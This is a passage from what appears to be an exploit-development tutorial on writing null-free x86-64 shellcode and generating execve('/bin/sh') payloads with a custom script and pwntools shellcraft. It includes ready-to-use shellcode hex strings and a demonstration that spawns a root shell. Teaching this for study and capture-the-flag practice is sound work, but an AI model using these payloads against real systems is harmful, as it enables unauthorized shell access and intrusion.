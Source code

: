     - `xor rdx, rdx`
        
    - `xor eax, eax`
        
2.  Replace string pushes with register loads:
    
    - Use `mov rdi, 0x68732f2f6e69622f`
3.  Use stack-relative operations or encoding if necessary.
    

* * *

# 7\. Using shellcoder.py (Custom Shellcode to Bytes)

Once the shellcode is fixed, run:

`$ python3 shellcoder.py sh`

Example output:

```
b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 bytes - No NULL bytes

```

Test it with:

`$ python3 loader.py 'b03b...0f05'`

* * *

# 8\. Using Shellcraft from Pwntools

You can generate shellcode with pwntools:

`$ pwn shellcraft amd64.linux.sh`

Output:

```txt
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05
```

Or execute it immediately:

```
$ pwn shellcraft amd64.linux.sh -r
$ whoami
root

```

You can also use Python to control generation:

```
>>> from pwn import *
>>> context(os='linux', arch='amd64')
>>> shellcode = shellcraft.execve('/bin/sh', ['/bin/sh'])
>>> print(asm(shellcode).hex())

```
